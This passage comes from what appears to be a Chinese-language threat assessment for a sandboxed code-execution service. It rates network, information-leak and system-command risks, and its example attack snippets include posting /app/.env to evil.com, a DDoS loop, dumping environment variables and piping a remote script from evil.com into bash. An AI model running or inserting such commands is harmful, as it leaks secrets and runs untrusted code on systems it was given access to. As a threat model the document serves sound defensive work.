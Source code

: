 #### 3. 网络访问风险
**风险等级**: 🟡 中

恶意代码可以：
- 访问外部网络
- 发送数据
- DDoS攻击

**示例攻击代码**:
```python
import requests
# 泄露数据
requests.post('http://evil.com', data=open('/app/.env').read())

# 或进行DDoS
while True:
    requests.get('http://target.com')
```

#### 4. 信息泄露风险
**风险等级**: 🟡 中

恶意代码可以：
- 读取环境变量
- 访问数据库（如果有权限）
- 读取其他用户的提交代码

**示例攻击代码**:
```python
import os
print(os.environ)  # 打印所有环境变量
```

#### 5. 执行系统命令
**风险等级**: 🔴 高

恶意代码可以：
- 执行任意系统命令
- 安装软件包
- 修改系统配置

**示例攻击代码**:
```python
import os
os.system('apt-get install -y curl')
os.system('curl http://evil.com/malware.sh | bash')
```

### ✅ 现有的安全措施

#### 1. Docker容器隔离
- ✅ 与主机文件系统隔离
- ✅ 与主机网络部分隔离
- ⚠️ 但容器内部没有额外隔离
